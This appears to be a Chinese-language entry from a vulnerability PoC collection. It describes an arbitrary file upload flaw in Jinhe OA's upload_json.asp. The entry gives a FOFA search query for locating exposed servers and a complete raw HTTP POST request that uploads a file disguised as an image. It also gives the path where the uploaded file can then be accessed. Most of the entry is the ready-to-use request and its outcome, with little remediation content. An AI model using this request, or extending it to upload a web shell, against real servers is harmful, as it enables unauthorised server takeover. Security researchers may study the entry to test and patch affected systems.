 ## 金和OA_upload_json.asp存在任意文件上传漏洞

金和OA upload_json.asp存在任意文件上传漏洞，攻击者可通过此漏洞获取服务器权限。


## fofa
```
app="金和网络-金和OA"
```

## poc
```
POST /c6/KindEditor1/asp/upload_json.asp?dir=file HTTP/1.1
Host: your_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Content-Length: 338
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------153857212076213662067051609723

-----------------------------153857212076213662067051609723
Content-Disposition: form-data; name="localUrl"


-----------------------------153857212076213662067051609723
Content-Disposition: form-data; name="imgFile"; filename="hhh.txt"
Content-Type: image/png

hhh
-----------------------------153857212076213662067051609723--
```

![image](../../images/2c14919b-e00d-49bf-8b94-21b5696bb8fe.png)

访问上传的文件
/c6/KindEditor1/asp/../attached/file/20240103/20240103164534323432.txt

![image](../../images/20dd3197-a7f9-4a74-863d-050603eab427.png)
